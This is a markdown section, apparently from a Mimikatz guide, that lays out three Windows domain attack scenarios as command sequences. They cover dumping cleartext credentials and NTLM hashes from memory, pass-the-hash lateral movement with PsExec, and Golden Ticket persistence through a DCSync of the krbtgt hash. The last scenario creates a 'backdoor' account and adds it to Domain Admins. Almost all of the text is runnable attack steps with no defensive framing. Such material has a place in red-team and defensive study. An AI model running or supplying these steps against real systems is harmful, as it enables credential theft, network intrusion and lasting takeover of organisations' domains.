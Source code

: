 ## Practical Attack Scenarios

### Scenario 1: Basic Credential Dumping
```cmd
# 1. Gain administrator access on target system
# 2. Execute Mimikatz
C:\> mimikatz.exe

# 3. Enable debug privileges
mimikatz # privilege::debug

# 4. Dump all credentials from memory
mimikatz # sekurlsa::logonpasswords

# 5. Extract useful credentials for lateral movement
# Look for:
# - Domain administrator accounts
# - Service accounts
# - Other user passwords in cleartext
```

### Scenario 2: Pass-the-Hash Lateral Movement
```cmd
# 1. Extract NTLM hashes from compromised system
mimikatz # sekurlsa::logonpasswords

# 2. Use administrator hash for lateral movement
mimikatz # sekurlsa::pth /user:administrator /domain:company.local /ntlm:a9fdfa038c4b75ebc76dc855dd74f0da /run:cmd.exe

# 3. In new command window, test access to other systems
C:\> dir \\server01\c$
C:\> dir \\server02\admin$

# 4. Use PsExec or similar to execute commands remotely
C:\> psexec \\server01 cmd.exe
```

### Scenario 3: Golden Ticket Domain Persistence
```cmd
# 1. Compromise Domain Controller or extract krbtgt hash
mimikatz # lsadump::dcsync /domain:company.local /user:krbtgt

# 2. Create Golden Ticket for persistent access
mimikatz # kerberos::golden /user:administrator /domain:company.local /sid:S-1-5-21-1234567890-987654321-1122334455 /krbtgt:extracted_krbtgt_hash /ptt

# 3. Test domain admin access
C:\> dir \\dc.company.local\c$
C:\> net user backdoor P@ssw0rd123 /add /domain
C:\> net group "Domain Admins" backdoor /add /domain
```
